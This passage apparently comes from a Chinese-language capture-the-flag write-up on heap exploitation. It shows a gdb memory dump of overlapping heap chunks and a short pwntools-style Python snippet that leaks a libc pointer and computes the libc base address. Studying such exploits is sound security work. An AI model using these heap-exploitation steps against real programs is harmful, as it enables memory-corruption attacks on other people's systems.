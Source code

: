 ```
0x5555555789a0:    0x0000000000000000    0x0000000000000000
0x5555555789b0:    0x0000000000000000    0x0000000000000241
0x5555555789c0:    0x00007ffff7fc6ca0    0x00007ffff7fc6ca0
0x5555555789d0:    0x0000000000000050    0x0000000000000050 --in used
0x5555555789e0:    0x0000000000000000    0x0000000000000000
0x5555555789f0:    0x0000000000000000    0x0000000000000000
0x555555578a00:    0x0000000000000000    0x0000000000000000
0x555555578a10:    0x0000000000000000    0x0000000000000000
0x555555578a20:    0x0000000000000000    0x0000000000000051 --in used
0x555555578a30:    0x0000000000000000    0x0000000000000000
0x555555578a40:    0x0000000000000000    0x0000000000000000
0x555555578a50:    0x0000000000000000    0x0000000000000000
0x555555578a60:    0x0000000000000000    0x0000000000000000
0x555555578a70:    0x0000000000000000    0x0000000000000051 --in used
0x555555578a80:    0x0000000000000000    0x0000000000000000
0x555555578a90:    0x0000000000000000    0x0000000000000000
0x555555578aa0:    0x0000000000000000    0x0000000000000000
0x555555578ab0:    0x0000000000000000    0x0000000000000000
0x555555578ac0:    0x0000000000000000    0x0000000000000061 --in used
0x555555578ad0:    0x0000000000000000    0x0000000000000000
0x555555578ae0:    0x0000000000000000    0x0000000000000000
0x555555578af0:    0x0000000000000000    0x0000000000000000
0x555555578b00:    0x0000000000000000    0x0000000000000000
0x555555578b10:    0x0000000000000000    0x0000000000000000
0x555555578b20:    0x0000000000000000    0x0000000000000061 --in used
0x555555578b30:    0x0000000000000000    0x0000000000000000
0x555555578b40:    0x0000000000000000    0x0000000000000000
0x555555578b50:    0x0000000000000000    0x0000000000000000
0x555555578b60:    0x0000000000000000    0x0000000000000000
0x555555578b70:    0x0000000000000000    0x0000000000000000
0x555555578b80:    0x0000000000000000    0x0000000000000001
0x555555578b90:    0x0000000000000210    0x0000000000000060
0x555555578ba0:    0x0000000000000000    0x0000000000000000
0x555555578bb0:    0x0000000000000000    0x0000000000000000
0x555555578bc0:    0x0000000000000000    0x0000000000000000
0x555555578bd0:    0x0000000000000000    0x0000000000000000
0x555555578be0:    0x0000000000000000    0x0000000000000000
```

#### <a class="reference-link" name="%E6%B3%84%E9%9C%B2libc"></a>泄露libc

上面构造出了overlapped chunk，泄露libc就是常规操作

```
#leak libc
add(0x18) # idx 7
view(4)

p.recvuntil('Chunk[4]: ')
libc = p.recv(6)
libc = libc.ljust(8,'x00')
libc = u64(libc)
print 'libc : '+ hex(libc)
libc_base = libc - 0x1e4ca0
print 'libc_bsae : ' + hex(libc_base)
```
